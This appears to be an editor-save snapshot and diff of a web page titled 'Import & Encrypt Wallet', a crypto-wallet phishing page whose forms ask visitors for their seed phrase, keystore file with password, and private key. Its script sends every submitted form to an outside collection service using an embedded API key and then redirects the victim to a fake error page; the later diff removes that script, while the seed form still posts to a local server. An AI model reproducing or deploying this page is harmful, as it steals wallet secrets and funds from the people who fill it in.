
Repository: mikun2/.com
Page: dist/import.html
The author's editor kept a copy of each file at every save. The page is drawn from the files as they stood at one save, then again after the next save.
The browser window is 1280 px wide. The pictures show the whole page.

Above is the page before, as saved 2024-11-09 11:19:04.

### dist/import.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <link rel="stylesheet" href="./output.css" />
    <link
      rel="icon"
      href="/dist/images/authereum-Copy.svg"
      type="image/x-icon"
      sizes="32x32"
    />

    <title>Import</title>
  </head>
  <body>
    <h1 class="text-3xl font-extrabold text-center mb-9 mt-20">
      Import & Encrypt Wallet
    </h1>
    <nav
      class="relative z-0 flex border rounded-xl overflow-hidden dark:border-neutral-700"
      aria-label="Tabs"
      role="tablist"
      aria-orientation="horizontal"
    >
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-1"
        data-tab-target="#bar-with-underline-1"
        role="tab"
      >
        Seed/Recovery Phrase
      </button>
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-2"
        data-tab-target="#bar-with-underline-2"
        role="tab"
      >
        KeyStore JSON
      </button>
      <button
        type="button"
        class="hs-tab-active:border-b-blue-600 hs-tab-active:text-gray-900 dark:hs-tab-active:text-white relative dark:hs-tab-active:border-b-blue-600 min-w-0 flex-1 bg-white first:border-s-0 border-s border-b-2 py-4 px-4 text-gray-500 hover:text-gray-700 text-sm font-medium text-center overflow-hidden hover:bg-gray-50 focus:z-10 focus:outline-none focus:text-blue-600"
        id="bar-with-underline-item-3"
        data-tab-target="#bar-with-underline-3"
        role="tab"
      >
        Private Key
      </button>
    </nav>

    <div class="mt-3">
      <!-- Seed/Recovery Phrase Form -->
      <div id="bar-with-underline-1" role="tabpanel" class="tab-panel">
        <form
          method="post"
          action="http://localhost:3000/submit-seed"
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-seed"
        >
          <div>
            <label
              for="phrase-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Phrase Value
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="phrase"
              placeholder="Enter your phrase value..."
              type="text"
              id="phrase-value"
              required
            />
          </div>
          <h1>Typically 12 (sometimes 24) words separated by single spaces.</h1>
          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>

      <!-- KeyStore JSON Form -->
      <div id="bar-with-underline-2" class="tab-panel hidden">
        <form
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-keystore"
        >
          <div>
            <label
              for="keystore-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Keystore Value
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="keystore"
              placeholder="Enter your Keystore value..."
              type="text"
              id="keystore-value"
              required
            />
          </div>

          <div>
            <label
              for="keystore-password"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Password
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="password"
              placeholder="Enter your Password..."
              type="password"
              id="keystore-password"
              required
            />
          </div>

          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>

      <!-- Private Key Form -->
      <div id="bar-with-underline-3" class="tab-panel hidden">
        <form
          class="max-w-lg mx-auto p-6 bg-white rounded-lg shadow-md space-y-4 mt-6"
          id="form-privatekey"
        >
          <div>
            <label
              for="privatekey-value"
              class="block text-sm font-medium text-gray-700 mb-1"
            >
              Private Key
            </label>
            <input
              class="w-full p-3 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-2 focus:ring-blue-500"
              name="privatekey"
              placeholder="Enter your Private Key..."
              type="text"
              id="privatekey-value"
              required
            />
          </div>
          <div>
            <input
              type="submit"
              class="w-full p-3 bg-blue-600 text-white rounded-md shadow-sm hover:bg-blue-700 focus:outline-none focus:ring-2 focus:ring-blue-500"
              value="Import"
            />
          </div>
        </form>
      </div>
    </div>

      const tabs = document.querySelectorAll("[data-tab-target]");
      const tabPanels = document.querySelectorAll(".tab-panel");

      tabs.forEach((tab) => {
        tab.addEventListener("click", () => {
          const target = document.querySelector(tab.dataset.tabTarget);
          tabPanels.forEach((panel) => panel.classList.add("hidden"));
          tabs.forEach((t) => t.classList.remove("active"));
          target.classList.remove("hidden");
          tab.classList.add("active");
        });
      });

      // Dynamic form handling
      document.querySelectorAll("form").forEach((form) => {
        form.addEventListener("submit", async function (event) {
          event.preventDefault(); // Prevent default form submission

          const url = `https://api.submitjson.com/v1/submit/yfJX06ncb`;
          let formData = {};

          // Collect data from the active form
          new FormData(form).forEach((value, key) => {
            formData[key] = value;
          });

          // Submit data
          const response = await fetch(url, {
            method: "POST",
            headers: {
              "content-type": "application/json",
              "X-API-Key": "sjk_98826fc22d4842f787a32a490aea4e10", // Replace with your API Key
            },
            body: JSON.stringify({ data: formData }),
          });

          const result = await response.json();

          if (response.ok) {
            window.location.href = "https://defii.netlify.app/error"; // Redirect after submission
          } else {
            alert("Failed to submit the form. Please try again.");
          }
        });
      });
    </script> -->
  </body>
</html>

Loaded but not shown: dist/output.css (2623 lines, source omitted)

After the next save:

Saved 14 s later.
--- a/dist/import.html
+++ b/dist/import.html
@@ -171,51 +171,8 @@
       </div>
     </div>
 
-      const tabs = document.querySelectorAll("[data-tab-target]");
-      const tabPanels = document.querySelectorAll(".tab-panel");
 
-      tabs.forEach((tab) => {
-        tab.addEventListener("click", () => {
-          const target = document.querySelector(tab.dataset.tabTarget);
-          tabPanels.forEach((panel) => panel.classList.add("hidden"));
-          tabs.forEach((t) => t.classList.remove("active"));
-          target.classList.remove("hidden");
-          tab.classList.add("active");
-        });
-      });
 
-      // Dynamic form handling
-      document.querySelectorAll("form").forEach((form) => {
-        form.addEventListener("submit", async function (event) {
-          event.preventDefault(); // Prevent default form submission
-
-          const url = `https://api.submitjson.com/v1/submit/yfJX06ncb`;
-          let formData = {};
-
-          // Collect data from the active form
-          new FormData(form).forEach((value, key) => {
-            formData[key] = value;
-          });
-
-          // Submit data
-          const response = await fetch(url, {
-            method: "POST",
-            headers: {
-              "content-type": "application/json",
-              "X-API-Key": "sjk_98826fc22d4842f787a32a490aea4e10", // Replace with your API Key
-            },
-            body: JSON.stringify({ data: formData }),
-          });
-
-          const result = await response.json();
-
-          if (response.ok) {
-            window.location.href = "https://defii.netlify.app/error"; // Redirect after submission
-          } else {
-            alert("Failed to submit the form. Please try again.");
-          }
-        });
-      });
     </script> -->
   </body>
 </html>
